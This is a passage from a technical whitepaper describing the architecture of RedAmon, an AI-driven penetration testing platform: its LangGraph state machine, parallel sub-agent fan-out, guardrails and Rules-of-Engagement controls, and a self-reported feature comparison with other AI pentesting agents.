# RedAmon Agentic System - Technical Whitepaper

## Executive Summary

RedAmon is an AI-driven penetration testing platform built on **Scatter-Gather ReAct (SG-ReAct)**, a hybrid architecture that combines the iterative ReAct reasoning loop with bounded parallel multi-agent decomposition. A root agent runs the engagement; when an objective decomposes into independent investigation angles, it deploys a *fireteam* of specialist sub-agents that work concurrently inside the same event loop and merge their findings back. The pattern delivers wall-clock parallelism without coordination chaos, predictable termination, auditable safety, and real-time operator control at every node of the graph.

In an impartial, code-verified comparison against four other open-source AI pentesting agents, **PentAGI**, **PentestGPT**, **Strix**, and **Shannon**, across 82 architectural feature primitives, **RedAmon scores 72.0% feature coverage versus a nearest-competitor 41.5%**. Its lead is widest in the dimensions that decide enterprise readiness: a four-layer guardrail stack (**8.0/8.0** vs. nearest 2.0), queryable domain-knowledge integration including CVE / CWE / MITRE mapping (**5.0/5.0** vs. nearest 2.0), and multi-tenant data separation enforced at the database-query level (**4.0/4.0** vs. nearest 3.0). RedAmon does not lead every dimension, PentAGI leads on observability, Strix on LLM provider flexibility, Shannon on durable-workflow persistence and PoC-mandatory finding rigor, and the body of this document acknowledges those gaps explicitly.

The combination of SG-ReAct, layered guardrails, persistent attack-chain memory, and multi-tenant isolation is what makes RedAmon usable for **real customer engagements** rather than for demonstrations: multi-hour autonomous runs that resume cleanly after a backend restart, defensible audit trails, encoded Rules of Engagement, and a single set of approval gates that govern both the root agent and every specialist sub-agent it spawns.

---

## Overview

The **RedAmon Agentic System** is an AI-driven penetration testing platform that combines an autonomous reasoning agent with a deterministic recon pipeline, a structured attack-chain memory, and a controlled fan-out of specialist sub-agents. It is engineered around a single architectural pattern that we call **Scatter-Gather ReAct (SG-ReAct)**, a hybrid of the classical ReAct (Reasoning + Acting) loop with bounded parallel multi-agent decomposition. SG-ReAct is what allows RedAmon to scale to multi-hour engagements without losing predictability, safety, or the operator's ability to intervene at any moment.

This document is the technical reference for that system. It describes every node, every state transition, every guardrail layer, every prompt-injection mechanism, and every persistence boundary. It is written for two audiences at once: engineers who need to extend or audit the codebase, and security leaders who need to understand *why* the architectural choices that follow are not interchangeable with those of the other AI pentesting tools on the market.

### What RedAmon Is

At a glance, RedAmon is an AI agent that conducts security assessments by reasoning step by step about a target, choosing which tools to run, observing the results, and deciding what to try next, repeating this loop until the engagement objective is reached or the operator stops it. That is the surface description, and it is the same description one could write about almost any agentic pentesting tool in 2026.

The substance is in what surrounds the loop:

- A **deterministic recon pipeline** runs *before* the agent and persists its findings as a queryable graph in Neo4j, so the agent starts every engagement with full prior intelligence already loaded, no rediscovery, no wasted LLM tokens on what is already known.
- A **14-node LangGraph state machine** governs every transition the agent can make, with explicit human-in-the-loop pause nodes, durable PostgreSQL checkpoints after every step, and a strict TypedDict schema that prevents silent state corruption.
- A **four-layer guardrail stack** (deterministic domain blocklist, LLM-based scope check, phase-gated tool whitelist, Rules-of-Engagement contract) enforces both hard safety rules and customer-specific engagement constraints, the same rails apply to the root agent and to every fireteam sub-agent it spawns.
- A **bounded fireteam fan-out** lets the root agent delegate independent investigation angles to N specialist sub-agents that run concurrently in the same event loop, each with its own ReAct mini-graph, its own pause-for-approval channel, and attributed writes back to the persistent attack chain.
- A **strategic Deep Think pre-step** runs at moments of architectural significance (first iteration, phase transitions, an unproductive-streak detection over the last N steps, agent self-request), producing a structured situation/vectors/approach/priority/risks analysis that anchors the next decisions.
- A **productivity-based loop detector** classifies every tool output into one of five verdicts (`new_info`, `confirmation`, `no_progress`, `blocked`, `duplicate`), cross-checks the LLM's verdict against the actual state delta, and auto-downgrades dishonest claims. When N of the last K steps come back unproductive, Deep Think is triggered and a warning is injected into the prompt, catching the "successful but useless" loops (HTTP 200 with empty body, identical fuzzing fingerprints, stable 404s) that a keyword-only failure detector missed.
- A **Rules of Engagement (RoE) framework** with ~35 settings encodes a complete pentest contract, client metadata, time windows, scope exclusions, technique gating, severity caps, sensitive-data handling, compliance frameworks, and enforces it both via prompt injection and via code-level gates.

The combination is what makes the platform usable for **real customer engagements** rather than for demos.

### Why "Scatter-Gather ReAct" Is the Right Pattern for Pentesting

ReAct alone, a single LLM looping over a single tool at a time, works well for simple objectives but breaks down on real attack surfaces. A modern web target presents several independent attack angles (auth surface, route map, security headers, JavaScript bundles, third-party integrations, infrastructure footprint), and a strictly sequential agent must investigate them one after another, accumulating context-switch noise in its prompt and burning wall-clock time. Worse, when the agent finally finishes an angle it must mentally re-page the others, every iteration costs more tokens to the same context window.

A pure multi-agent mesh, N independent agents talking to each other via a message bus, solves the parallelism problem but introduces three new ones: unbounded coordination cost, unpredictable termination, and a safety story that becomes very difficult to audit (every agent can in principle do anything the framework allows).

**Scatter-Gather ReAct sits in the middle, deliberately.** A root ReAct agent is the only entity that decides when to fan out, what specialists to deploy, what mission each receives, and what to do with the merged results. A fireteam wave is bounded (`FIRETEAM_MAX_CONCURRENT`, `FIRETEAM_MAX_MEMBERS`, `FIRETEAM_TIMEOUT_SEC`), recursion-banned (members cannot deploy further fireteams), phase-immutable (members cannot escalate phase), and confirmation-preserving (every dangerous tool call from any member still requires operator approval, just on a per-member channel so N specialists can pause in parallel without serializing). The root reasons strategically; the specialists reason tactically; the merge is a pure in-memory roll-up. The pattern keeps the *adaptiveness* of multi-agent and the *auditability* of single-agent in the same architecture.

Concretely, SG-ReAct delivers four properties that matter on a real engagement:

1. **Wall-clock parallelism without coordination chaos.** Three independent recon angles complete in the time of one because all three specialists run on the same `asyncio` event loop and interleave on every `await`. There is no message bus, no inter-agent contention, no distributed-locking story to debug.
2. **Predictable termination.** Every wave has a hard timeout, every member has an iteration budget, and the parent only resumes when the gather completes (or is cancelled). The operator can always answer the question "will this run forever?" with no.
3. **Auditable safety.** All four guardrail layers (hard rail, soft rail, phase gate, RoE) are evaluated at the parent and inherited by every member. There is no path through the architecture where a sub-agent can act outside the scope the root was authorised for. A single per-engagement audit covers every member of every wave.
4. **Operator control at every level.** The operator sees the whole wave as one card with N specialist panels, can approve or reject each member's dangerous-tool requests independently, can stop the entire wave with a single click, and can resume a checkpointed engagement after any kind of interruption, including a backend restart.

### Where RedAmon Stands Against the Market

RedAmon was benchmarked against four other AI pentesting agents (PentAGI, PentestGPT, Strix, Shannon) across **82 agentic feature primitives** organised into 14 dimensions: orchestration topology, control flow, task decomposition, memory and context, tool selection, self-correction, guardrails, human-in-the-loop, isolation and multi-tenancy, domain knowledge integration, observability, persistence, provider flexibility, and finding-quality primitives. The full feature matrix, methodology, and per-system leadership map live later in this document, see [Comparative Benchmark - RedAmon vs. Other AI Pentesters](#comparative-benchmark--redamon-vs-other-ai-pentesters).

| System | Coverage | Paradigm |
|---|---:|---|
| **RedAmon** | **72.0 %** | **Phase-gated SG-ReAct + bounded fireteam** |
| Strix | 41.5 % | Dynamic multi-agent graph + skill library |
| PentAGI | 40.2 % | Hierarchical multi-agent (15 `MsgchainType` roles) |
| Shannon | 39.0 % | Temporal-orchestrated 5-phase pipeline |
| PentestGPT | 23.8 % | Single-agent thin wrapper with 5-state FSM |

RedAmon's lead is **30 percentage points over the nearest competitor**, and concentrated in the categories that decide whether an AI pentester is *enterprise-ready* rather than just *interesting*:

- **Guardrails (8.0 / 8.0 vs. nearest 2.0).** RedAmon is the only platform that combines a deterministic non-disableable domain blocklist, an LLM-based scope check, phase-gated tool whitelisting, a Rules-of-Engagement contract framework, dangerous-tool confirmation, phase-transition approval, and a recursive-deployment ban. Every other system stops at one or two layers.
- **Domain knowledge integration (5.0 / 5.0 vs. nearest 2.0).** Only RedAmon offers a queryable knowledge base, CVE/CWE database lookup, MITRE mapping (CWE/CAPEC/ATT&CK), and a curated skill library accessible from inside the agent. Every other system relies on the LLM's pre-trained knowledge alone.
- **Memory and context (6.0 / 8.0, +50 % over nearest).** Only RedAmon couples a persistent Neo4j knowledge graph with vector RAG over curated infosec sources and cross-encoder reranking. Competitors rely on conversation buffers and at best a single retrieval mechanism.
- **Tool selection and use (6.0 / 8.0, +33 % over nearest at 4.5).** Only RedAmon ships MCP server integration, parallel tool waves, tool-mutex groups (singleton protection for tools like Metasploit), and a dangerous-tool confirmation gate. Shannon comes second largely on the strength of its strict Zod + JSON-Schema validation pipeline.
- **Multi-tenancy (4.0 / 4.0 vs. nearest 3.0).** Tenant-scoped context propagation, tenant-filtered Neo4j queries (the agent cannot write a Cypher query that reads another project's data), session isolation, and sandbox isolation. RedAmon is the only platform designed from the start for multiple operators on multiple projects.

The competitive picture is not "RedAmon wins everything." Strix leads on dynamic agent topology and context compression; Shannon leads on durable workflow guarantees (Temporal) and PoC-mandatory exploitation rigor; PentAGI leads on LLM provider breadth and Langfuse observability; PentestGPT is the cleanest single-agent thin-wrapper implementation. The benchmark documents these advantages honestly. But on the dimensions that decide whether a tool can be **trusted with paying customer engagements**, safety, scope control, audit, multi-tenant isolation, persistent project intelligence, RedAmon is alone in its tier.

### Why SG-ReAct Beats the Alternatives in Practice

Each competing paradigm has a specific failure mode under real-engagement pressure:

| Competing pattern | Failure mode under load | How SG-ReAct avoids it |
|---|---|---|
| **Single-agent ReAct** (PentestGPT) | Sequential investigation of independent angles wastes wall clock and accumulates noise in the prompt | Fireteam fan-out runs N angles in parallel; merge keeps the parent's prompt clean |
| **Hierarchical multi-agent** (PentAGI) | Inter-agent calls go through prompt-formatted "tool" interfaces, slow, expensive, lossy | Fireteam members share the parent's Neo4j session, MCP connections, event loop. Zero cross-process serialisation |
| **Dynamic multi-agent** (Strix) | Emergent topology means unpredictable termination, hard-to-audit safety story, no bound on resource use | Bounded fan-out with per-wave timeouts and recursion ban. Worst case is provable |
| **Workflow-orchestrated pipeline** (Shannon) | Rigid DAG cannot adapt to what the agent learns mid-engagement | LangGraph state machine plus ReAct loop adapts every iteration; fireteam composes on top, doesn't replace |

The architectural insight is that **autonomy and safety are not opposites**, they are independent axes. Most agentic frameworks treat extra autonomy as inherently risky and respond by limiting what the agent can do. SG-ReAct treats them as orthogonal: the agent is given a wide action vocabulary (use_tool, plan_tools, deploy_fireteam, transition_phase, ask_user, complete) and the safety story is built into the *transitions between actions* rather than into the actions themselves. Phase gating, RoE enforcement, dangerous-tool confirmation, scope rails, and the recursion ban all sit on the edges of the graph; the agent reasons freely *inside* the nodes.

This is what lets RedAmon do things that competing platforms cannot:

- **Run a 4-hour customer engagement unattended overnight**, resume it cleanly the next morning if the backend was patched, and produce a defensible audit trail of every action taken, what was scanned, why, what the agent learned, what it decided next, what was approved, what was rejected.
- **Scale to multi-target engagements** by deploying fireteam waves that investigate independent surfaces in parallel, while the operator only sees one consolidated chat surface and one set of approvals.
- **Encode a full pentest contract** (client metadata, time windows, technique gating, compliance frameworks, sensitive-data handling) once, in the project settings, and have every subsequent agent action automatically respect it, at the prompt level *and* at the code level.
- **Build cumulative project intelligence over time** by writing every tool execution, every finding, every decision, and every dead-end into the persistent attack-chain graph, so the next engagement on the same project starts already knowing what was tried before, what worked, and what to skip.
- **Generate professional-grade reports** by joining the persistent recon graph (what exists) with the persistent attack chain (what the agent did about it) into six narrative sections that customer-facing operators can ship as the deliverable.

### How To Read This Document

The document is organised so that any single chapter can be read on its own, but the narrative rewards a top-to-bottom pass:

1. **[Agent State Machine](#agent-state-machine)**, the foundational design pattern. Read this first.
2. **[Architecture Overview](#architecture-overview)**, the component diagram showing how the agent, the tools, the graphs, and the frontend connect.
3. **[Core Components](#core-components)**, narrative overview of every major feature with cross-references to the deep chapters.
4. **Feature chapters** (4-23), deep technical detail on each capability: classification, skills, tools, recon graph, streaming, confirmation, Deep Think, fireteam, output analysis, guardrails, RoE, stealth, frontend, workflows, multi-objective, EvoGraph, security, tokens, knowledge base, reports, companion orchestrators.
5. **Reference chapters** (24-29), token optimisation, error handling, codebase layout, configuration reference, running instructions, summary.

Engineers wanting to extend the platform should focus on the LangGraph chapter, the Core Components tour, the relevant feature chapter for their target subsystem, and the [Codebase Layout](#codebase-layout) at the end. Security leaders evaluating the platform for a customer engagement should focus on this Overview, the Guardrails chapter, the RoE chapter, and the Multi-Tenancy chapter.

---

## Table of Contents

1. [Agent State Machine](#agent-state-machine)
2. [Architecture Overview](#architecture-overview)
3. [Core Components](#core-components)
4. [Attack Path Classification](#attack-path-classification)
5. [Skills System (Built-In, User, Chat)](#skills-system-built-in-user-chat)
6. [Tool Execution & MCP Integration](#tool-execution--mcp-integration)
7. [Recon Graph & query_graph (Persistent Project Intelligence)](#recon-graph--query_graph-persistent-project-intelligence)
8. [WebSocket Streaming](#websocket-streaming)
   - [Guidance Messages](#guidance-messages)
   - [Stop & Resume Execution](#stop--resume-execution)
   - [Per-Tool Stop](#per-tool-stop)
9. [Tool Confirmation Gate](#tool-confirmation-gate)
10. [Deep Think (Strategic Reasoning Pre-Step)](#deep-think-strategic-reasoning-pre-step)
11. [Productivity Verdict & Unproductive-Streak Loop Detector](#productivity-verdict--unproductive-streak-loop-detector-1)
12. [Wave Execution (Parallel Tool Plans)](#wave-execution-parallel-tool-plans)
13. [Fireteam - Parallel Specialist Sub-Agents](#fireteam--parallel-specialist-sub-agents)
14. [Output Analysis (Inline)](#output-analysis-inline)
15. [Guardrails (Hard, Soft, Scope)](#guardrails-hard-soft-scope)
16. [Rules of Engagement (RoE)](#rules-of-engagement-roe)
17. [Stealth Mode](#stealth-mode)
18. [Frontend Integration](#frontend-integration)
19. [Detailed Workflows](#detailed-workflows)
20. [Multi-Objective Support](#multi-objective-support)
21. [EvoGraph - Evolutive Attack Chain Graph](#evograph--evolutive-attack-chain-graph)
22. [Security & Multi-Tenancy](#security--multi-tenancy)
23. [Token Accounting & Cost Tracking](#token-accounting--cost-tracking)
24. [Knowledge Base Integration](#knowledge-base-integration)
25. [Report Summarizer (Narrative Synthesis)](#report-summarizer-narrative-synthesis)
26. [Companion Orchestrators (Cypherfix)](#companion-orchestrators-cypherfix)
27. [Comparative Benchmark - RedAmon vs. Other AI Pentesters](#comparative-benchmark--redamon-vs-other-ai-pentesters)
28. [Error Handling & Resilience](#error-handling--resilience)
29. [Codebase Layout](#codebase-layout)
30. [Configuration Reference](#configuration-reference)

---

## Agent State Machine

This is the most important chapter in the document. The state machine is the foundational design pattern that every other capability, Deep Think, Fireteam, guardrails, multi-tenancy, persistence, human-in-the-loop, observability, builds on top of. If you read only one chapter to understand how RedAmon works, this should be it. The chapter starts with a plain-language overview of why a state machine (rather than a plain loop) is the right shape for an agentic pentester, then shows the graph structure top-down, then describes the state schema in four parts grouped by purpose, and ends with the per-node responsibility table.

### Overview

At its core, RedAmon's agent is a **decision-making engine** that mimics how a senior penetration tester actually works: read what's on the screen, decide what to do next, run a tool, look at the result, decide what to do next, and repeat, sometimes for many hours, across many discoveries, across many objectives. The hard part of building such an engine is not the "thinking"; modern language models do that well. The hard part is keeping the entire process **predictable, interruptible, observable, and safe** while it runs.

That is exactly the problem [LangGraph](https://langchain-ai.github.io/langgraph/) solves, and it is why the agent is built on top of it.

A **state machine** is a precise way to describe a process. Instead of one giant program that "just runs," the work is broken into a small number of named **steps** (called *nodes*) connected by labelled **routes** (called *edges*). At any given moment the agent is sitting at exactly one node, holding a snapshot of everything it knows so far in a single object called the **state**. When a node finishes, it returns an update to the state and the framework decides, based on a clear rule, which node runs next. Nothing runs by accident. Nothing is forgotten between steps.

This shape buys the project five concrete properties that would be very expensive to build from scratch:

- **Predictability.** Because every transition is a labelled edge, the operator can read the diagram once and know every path the agent might take. There are no hidden behaviours, no "the language model decided to do X for unclear reasons." If the agent runs a tool, it is because `think` produced an `action=use_tool` decision and the router dispatched to `execute_tool`. Full stop.
- **Resumability.** The state object is checkpointed to PostgreSQL after every node boundary. If the backend crashes, if a deploy restarts the container, if the operator closes the browser tab and comes back two hours later, the agent picks up at exactly the node it was on, with exactly the state it had. This is invisible to the user, they never lose work.
- **Pausability for human approval.** Some nodes are designed to *halt the graph entirely* and wait for the operator to weigh in. Pausing for a phase transition, pausing for a question, pausing for a dangerous-tool confirmation, these are not bolt-on hacks. They are first-class graph nodes (`await_approval`, `await_question`, `await_tool_confirmation`) whose job is precisely to stop and wait. When the operator answers, the graph resumes from that exact node.
- **Observability.** Because every step writes to the state and every transition is logged, the entire decision history of any session can be replayed, audited, and reasoned about after the fact. This is critical for a security tool, you must be able to answer "why did the agent run that command on that target at that time?" and the answer must be reproducible.
- **Concurrency safety.** Each session runs on its own state with its own checkpoint thread. Two operators on two projects cannot accidentally cross wires. The fireteam fan-out (where N specialist sub-agents run in parallel) is built on top of the same primitives, so every sub-agent inherits the same predictability and resumability guarantees as the root agent.

### The Design at a Glance

The agent's behaviour is described by **14 nodes and ~25 labelled edges**. Three node families dominate the design:

| Family | Nodes | Purpose |
|---|---|---|
| **Reasoning** | `initialize`, `think`, `generate_response` | The "brain". Decide what's happening, what to do, when to stop |
| **Action** | `execute_tool`, `execute_plan`, `fireteam_deploy`, `fireteam_collect` | Run tools, sequentially, in parallel waves, or fanned out across specialist sub-agents |
| **Human-in-the-loop** | `await_approval` / `process_approval`, `await_question` / `process_answer`, `await_tool_confirmation` / `process_tool_confirmation` | Pause the graph and wait for the operator to decide |

Routing between them is **never random**. Every decision a language-model node produces is parsed against a strict schema (`LLMDecision`), and a router function reads that schema to pick the next node deterministically. If the model produces malformed output, parsing fails loudly and a fallback path takes over, there is no "try to guess what the model meant" code anywhere in the dispatcher.

### Why a State Machine Beats a Plain Loop

A common alternative would be a simple Python `while` loop: "ask the model, run the tool, repeat." That works for a demo. It falls apart in production for several reasons that the state-machine design eliminates:

| Problem with a plain loop | How the state machine solves it |
|---|---|
| Crashing mid-run loses everything | Each node boundary is a checkpoint; resume picks up where it stopped |
| Pausing for human approval requires tangled callbacks | `await_*` nodes pause the graph as a first-class action |
| Adding new behaviour means editing the loop body | Adding a new node and an edge label is enough; the dispatcher is unchanged |
| Tracing what the agent did is grep-through-logs work | Every state transition is structured and queryable |
| Running a sub-agent means duplicating the loop | The fireteam fan-out re-uses a compiled member subgraph; one definition, N concurrent instances |
| Cancelling cleanly is racy | `task.cancel()` on the LangGraph `astream` task propagates cleanly to the current node |

The state machine is, in short, **the contract** between the LLM (which is non-deterministic by nature) and the rest of the system (which must be deterministic and safe). The LLM is allowed to be creative inside `think`. Everything *outside* `think`, when to run tools, when to pause, when to ask, when to stop, what to remember, what to checkpoint, is rigid by design.

### What the Operator Sees

For the operator, the state-machine design surfaces in three very visible ways:

1. **The chat never lies about what the agent is doing.** Every "thinking" bubble, every tool card, every pending approval is the rendering of a specific state transition the operator can trace back to a node. If a tool card says "running," there is genuinely a node executing that tool right now.
2. **Stop and resume always work.** Because state lives in the database, the red Stop button does not "kill the session", it pauses the graph at the next safe boundary. The green Resume button picks up from there. Long-running engagements (multi-hour Metasploit sessions, slow stealth scans) become safe to walk away from.
3. **The agent can ask back.** When the agent is missing information it cannot guess (an LHOST for a reverse shell, a wordlist preference, a confirmation to escalate), it transitions into a wait-for-human node. The chat input adapts to the kind of answer expected. The agent waits indefinitely; nothing times out the operator.

### Why LangGraph and Not a Custom Framework

LangGraph was chosen instead of a hand-rolled orchestrator for three reasons that matter to anyone reading or extending the codebase:

- **It is a thin, well-understood abstraction.** Nodes are async Python functions. Edges are dictionaries. State is a `TypedDict`. There is nothing magic to learn beyond those three concepts. Engineers familiar with the framework can read the agent's `orchestrator.py` and understand the entire control flow in one sitting.
- **The checkpointer is pluggable.** The project uses `AsyncPostgresSaver` for production (state survives restarts) but the same code runs against an in-memory checkpointer for tests, with no changes to node logic.
- **Streaming is built in.** Every node yields incremental state updates that the WebSocket layer turns into real-time UI events without the orchestrator caring how they reach the browser. This is what makes the timeline feel "live" instead of polling.

The trade-off, accepted deliberately, is that the framework imposes a strict schema on what nodes return and what state can hold. Any field a node writes must be declared on the TypedDict, or the framework silently drops it during state merge. This rule is uncomfortable at first but pays off enormously at scale: the *only* way for a value to enter the agent's memory is through a declared, typed channel.

---

### Graph Structure

Top-down view of the 14 nodes and their transitions. Read it as gravity, the agent starts at `initialize` at the top and flows downward; loops back into `think` are the ReAct cycle.



Three things to notice in the diagram:

- `think` sits in the middle, every action node returns to it, and every wait node eventually resumes through it. It is the ReAct hub.
- The orange "wait operator" boxes are the places where the graph genuinely halts. The browser can close, the backend can restart, when the operator answers, the graph picks up at the corresponding `process_*` node.
- `fireteam_deploy` and `fireteam_collect` form a self-contained fan-out / fan-in pair. Inside the fireteam call, N specialist sub-agents each run their own miniature version of the same graph in parallel.

---

### State Definition

The agent's working memory lives in a single `AgentState` object that is passed between nodes and checkpointed to PostgreSQL after every transition. To keep the diagrams readable on A4, the state is shown in four parts: the core scalar fields, the list/dict relationships to child entities, the action-execution data structures, and the data-bag entities that get accumulated as the session progresses.

#### 1. AgentState, Core Scalar Fields



#### 2. AgentState, Relationships to Child Entities

`AgentState` references 15 child entities. They cluster naturally into five purpose groups:



**Execution Memory**, what the agent has done step by step.

| Field | Type | Child entity | What it carries |
|---|---|---|---|
| `execution_trace` | list (0..N) | `ExecutionStep` | Every iteration's thought, tool call, output, analysis |
| `todo_list` | list (0..N) | `TodoItem` | The agent's evolving task list with status and priority |
| `phase_history` | list (0..N) | `PhaseHistoryEntry` | Audit log of phase transitions with timestamps |

**Conversation Memory**, interaction with the operator.

| Field | Type | Child entity | What it carries |
|---|---|---|---|
| `conversation_objectives` | list (0..N) | `ConversationObjective` | Sequential objectives the operator has asked about |
| `objective_history` | list (0..N) | `ObjectiveOutcome` | Completed objectives with archived findings |
| `qa_history` | list (0..N) | `QAHistoryEntry` | Every question the agent asked and the operator's answer |

**EvoGraph Memory**, fast in-memory mirror of the persistent attack chain.

| Field | Type | Child entity | What it carries |
|---|---|---|---|
| `chain_findings_memory` | list (0..N) | `ChainFinding` | Findings extracted from tool outputs, severity-tagged |
| `chain_failures_memory` | list (0..N) | `ChainFailure` | Dead ends with `lesson_learned` text |
| `chain_decisions_memory` | list (0..N) | `ChainDecision` | Strategic decisions (phase transitions, aborts, approvals) |

**Target Snapshot**, the agent's worldview of the target.

| Field | Type | Child entity | What it carries |
|---|---|---|---|
| `target_info` | object (1..1) | `TargetInfo` | Accumulated ports, services, technologies, vulns, credentials, sessions |

**Pending Action Data**, populated only when the graph is paused or about to act.

| Field | Type | Child entity | When populated |
|---|---|---|---|
| `_current_plan` | object (0..1) | `ToolPlan` | When the LLM emits `action=plan_tools` |
| `_current_fireteam_plan` | object (0..1) | `FireteamPlan` | When the LLM emits `action=deploy_fireteam` |
| `phase_transition_pending` | object (0..1) | `PhaseTransitionRequest` | While `await_approval` halts the graph |
| `pending_question` | object (0..1) | `UserQuestionRequest` | While `await_question` halts the graph |
| `tool_confirmation_pending` | object (0..1) | `ToolConfirmationRequest` | While `await_tool_confirmation` halts the graph |

> **Cardinality notation**, `(0..N)` means the list can have any number of entries (including zero). `(1..1)` means exactly one. `(0..1)` means optional / nullable. The "Pending Action Data" group's `(0..1)` cardinality is what makes the human-in-the-loop pause possible: the field is null in normal flow and gets populated only when the graph genuinely halts.

#### 3. Action-Execution Data Structures

These describe what the agent is *about to do* or *currently doing* when it routes out of `think`.



#### 4. Accumulated Knowledge Entities

These accumulate across iterations and form the agent's working memory of the engagement.



### Node Responsibilities

